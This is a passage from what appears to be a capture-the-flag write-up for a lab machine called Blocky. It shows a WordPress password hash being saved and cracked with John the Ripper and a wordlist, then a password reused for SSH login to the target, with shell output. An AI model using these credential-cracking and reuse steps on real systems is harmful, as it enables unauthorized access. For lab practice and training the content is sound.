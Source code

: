 ![80 PHPMyAdmin WordPress Creds](screenshots/80_wp_users.png)

If we can crack the password hash, we can get WordPress admin access and get a shell by uploading a plugin or modifying a theme. So, saved the hash.

```none
echo '$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/' > notch_hash
```

Then fired up John.

```none
john --wordlist=/usr/share/wordlists/rockyou.txt notch_hash
```

While John was running, noticed an email for the user with a unique domain name: `notch@blockcraftfake.com`. Might be useful, so noted it down for later.

John was taking a while to run, so I started looking elsewhere. I had a look through the PHP My Admin users, then started looking at some software versions. But thought this should be simpler than the things I was looking at. I now had a username and a password, which I had tried everywhere apart from SSH for the newly found `notch` user.

```none
└─$ ssh notch@10.10.10.37              
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ wc -c user.txt 
32 user.txt
```

